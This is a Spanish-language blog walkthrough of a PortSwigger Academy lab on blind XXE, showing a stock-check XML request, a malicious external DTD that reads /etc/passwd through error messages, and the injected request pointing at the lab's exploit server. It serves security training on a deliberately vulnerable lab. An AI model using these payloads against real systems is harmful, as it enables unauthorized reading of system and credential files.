



+++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 6"
date = "2022-01-24"
description = "Lab: Exploiting blind XXE to retrieve data via error messages"
tags = [
    "xxe",
    "blind xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting blind XXE to retrieve data via error messages

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE pero en este caso de tipo blind valiendose de la configuracion debil del analizador. Pero esta vez exfiltrando datos a travez de un DTD externo malicioso al que se conectara.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.


Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```



## Explotacion

Sabiendo esto lo primero que haremos sera crear nuestra entidad DTD que estara alojada en un servidor web al cual luego se le hara referencia en la consulta enviada para poder inyectarla. Lo que hara esta entidad externa maliciosa es primero pedir el archivo que no existe y generara un error. El contenido es el siguiente:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Sabiendo esto haremos nuestra peticion pero referenciando a la entidad externa maliciosa alojada en el servidor. Ahora que ya hemos ejecutado vemos que podemos leer el archivo pero aparte el error generado por intentar leer el archivo que no existe

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acb21f3b1ee66c24c17b96bb01c60046.web-security-academy.net/exploit.dtd"> %xxe;]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```



Y con esto hemos resuelto el lab.



[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)